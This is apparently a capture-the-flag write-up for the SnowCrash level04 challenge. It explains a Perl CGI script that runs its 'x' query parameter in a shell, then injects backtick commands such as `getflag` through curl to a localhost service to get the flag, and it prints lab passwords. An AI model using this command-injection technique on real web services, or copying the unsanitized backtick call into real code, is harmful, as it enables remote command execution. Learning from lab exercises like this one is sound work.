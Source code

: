 ## Level 04

Put the password for the level04.

```
qi0maab88jeaj46qoumi7maus
```

With **ls** command, we found a file written in perl script. <ins>This is a simple **CGI**(Common Gateway Interface) script that takes a parameter "x" from the query string and prints the result of runnig the command specified by the parameter using the 'echo' commmand. <ins>

In summary, the script takes a parameter named "x" from the query string, uses it as a command, executes the command, and prints the result.

> **Note:**
> What is CGI? :
> _CGI, or Common Gateway Interface, is a standard interface that enables communication between a web server and external programs or scripts. It allows for the creation of dynamic web pages, processing user input, and interaction with databases._

```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

<details>
  <summary> Details for the perl script </summary>

이 Perl 스크립트는 CGI(Common Gateway Interface) 스크립트로, 쿼리 문자열에서 "x"라는 매개변수를 가져와 해당 매개변수로 지정된 명령을 실행한 결과를 출력하는 간단한 CGI 스크립트입니다.

1. `#!/usr/bin/perl`: 이것은 해시뱅(해시 기호(#)와 느낌표(!)) 라인으로, 이 스크립트를 실행하기 위해 사용되어야 하는 Perl 인터프리터의 경로를 지정합니다.

2. `use CGI qw{param};`: 이 라인은 CGI 모듈에서 `param` 함수를 가져옵니다. `param` 함수는 쿼리 문자열에서 매개변수의 값을 가져오는 데 사용됩니다.

3. `print "Content-type: text/html\n\n";`: 이 라인은 "text/html" 형식의 콘텐츠임을 나타내는 HTTP 헤더를 전송합니다. 두 번의 개행(`\n\n`)은 헤더와 본문을 구분합니다.

4. `sub x { ... }`: 이것은 "x"라는 서브루틴(함수)을 정의합니다. 하나의 매개변수를 사용하고 그 값을 `$y` 변수에 할당합니다.

5. `$y = $_[0];`: 이 라인은 서브루틴에 전달된 첫 번째(이 경우에는 유일한) 인수를 `$y` 변수에 할당합니다.

6. `print `echo $y 2>&1`;`: 이 라인은 `$y`에 지정된 명령의 결과를 출력합니다. 역따옴표(`)는 명령을 실행하는 데 사용되며, `2>&1`은 표준 출력과 표준 에러를 모두 출력으로 리다이렉션하는 것입니다. 이는 일반 출력과 오류 메시지를 모두 캡처하는 일반적인 기술입니다.

7. `x(param("x"));`: 이 라인은 쿼리 문자열에서 "x" 매개변수의 값을 사용하여 "x" 서브루틴을 호출합니다.

요약하면, 이 스크립트는 쿼리 문자열에서 "x"라는 매개변수를 가져와 해당 값을 명령으로 사용하여 명령을 실행하고 결과를 출력합니다.

Below is the example of an error message based on our requests to a web server running on 127.0.0.1:4747 (The case that I omit the x parameter for intention to see the response.)

```
level04@SnowCrash:~$ curl '127.0.0.1:4747/level.pl?=`whoami`'
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /level.pl was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 127.0.0.1 Port 4747</address>
</body></html>
level04@SnowCrash:~$ curl '127.0.0.1:4747/level.pl?=`getflag`'
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /level.pl was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 127.0.0.1 Port 4747</address>
</body></html>
```

</details>

<br>

**Differences of using double quotes and backticks** in shell commandds within perl

So we can see the perl version 14 is on our shell.

```
level04@SnowCrash:~$ perl --version

This is perl 5, version 14, subversion 2 (v5.14.2) built for i686-linux-gnu-thread-multi-64int
(with 57 registered patches, see perl -V for more detail)
```

**1. Double quotes("")**

So, I run a command with a one parameter x as below with **""** (double quotes) . If that word is a string as "Hello world", it prints out the program as below, it treats the command as part of a string :

```
level04@SnowCrash:~$ ./level04.pl x="Hello world"
Content-type: text/html

Hello world
level04@SnowCrash:~$ ./level04.pl x="Hello Yooyoo"
Content-type: text/html

Hello Yooyoo
```

**2. Backticks(``)**
When you use backticks, the enclosed command is executed in a subshell, and its output is captured. **It treats the enclosed content as a shell command and executes it.**

```
level04@SnowCrash:~$ ./level04.pl x=`whoami`
Content-type: text/html

level04
level04@SnowCrash:~$ ./level04.pl x=`who`
Content-type: text/html

level02
level04@SnowCrash:~$ ./level04.pl x=`whom`
The program 'whom' can be found in the following packages:
 * mailutils-mh
 * nmh
Ask your administrator to install one of them
Content-type: text/html
```

> **Note:**
> PERL (Practical Extraction and Reporting Language) ? Perl is a high-level, general-purpose programming language that was originally developed for text manipulation and used extensively for system administration tasks.

> 1. Perl was initially designed for efficient text processing, making it well-suited for tasks involving regular expressions, string mainpulation, and file processing.

> 2. Perl has been traditionally used for system administration tasks, such as automating repetitive operations, managing files, and interacting with the operating system.

> 3. Perl has been historically popular for server-side scripting in web development. The CGI (Common Gateway Interface) protocol, which allows web servers to execute scripts, played a significant role in the early days of dynamic web content.

<br>

So, what if we add the same logic for the localhost:4747 ?
Nothing came out..

```
level04@SnowCrash:~$ perl localhost:4747
Can't open perl script "localhost:4747": No such file or directory
level04@SnowCrash:~$ ./level04.pl x=`localhost:4747`
localhost:4747: command not found
Content-type: text/html


level04@SnowCrash:~$ curl localhost:4747
```

Or, what if we run on our host with the port 4747?
Flag04 came out with the whoami parameter.

```
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`whoami`'

flag04
```

Maybe we can try again with x parameter with **getflag**. And here we go, we got the flag :)

```
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

<details>
  <summary> Password </summary>
  ne2searoevaevoem4ov4ar8ap
  </details>
